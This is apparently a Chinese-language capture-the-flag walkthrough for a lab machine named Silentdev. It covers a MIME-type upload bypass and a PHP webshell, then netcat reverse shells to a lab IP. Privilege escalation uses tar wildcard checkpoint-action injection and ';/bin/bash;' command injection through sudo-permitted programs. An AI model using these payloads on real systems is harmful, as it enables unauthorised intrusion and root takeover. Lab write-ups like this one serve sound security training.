# Silentdev(med)
nmap扫描

web页面直白的一个文件上传
看源码upload.php

扫描到uploads目录

bp抓包测试了一下
直接修改mime头绕过
```
<?php
system('$_REQUEST[cmd]');
```
不知道为什么system一执行就出错500,换eval
上线webshell再把权限传回kali
```
nc 192.168.56.101 4444 -e /bin/bash
```
升级shell
```
python3 -c "import pty; pty.spawn('/bin/sh -i')"bash也不行
```
使用
```
script -qc /bin/bash /dev/null
```

看到web用户在1004组
刚好符合权限可以查看用户
但是没什么东西
尝试sudo,suid提权,也没啥利用
计划任务也没啥
感觉突破点在组的权限上
查看可以通过组来访问的文件
```
find / -group developers 2>/dev/null
```

/opt/project中有一个html文件将其放在html目录下查看

猜想可能有developer的密码?
尝试ssh登录没成功
看一下backups目录

解压后是一个相同的html文件
这里可能是有计划任务
pspy监听发现

提权方式:tar后面的通配符，tar在打包时如果目录里有特定文件名，可能会被解释成参数，从而执行命令。


```
echo 'nc 192.168.56.101 6666 -e /bin/bash' > shell.sh
chmod +x shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint=1"
```
等待计划任务完成


尝试sudo -l
查看文件


使用alfobso运行脚本文件,进行命令注入

得到flag



再次sudo -l

可以任意身份运行文件,查看一下文件
是乱码
运行一下,应该是查询用户的信息

猜测与上面的方法一致,尝试命令注入
```
;/bin/bash;
```




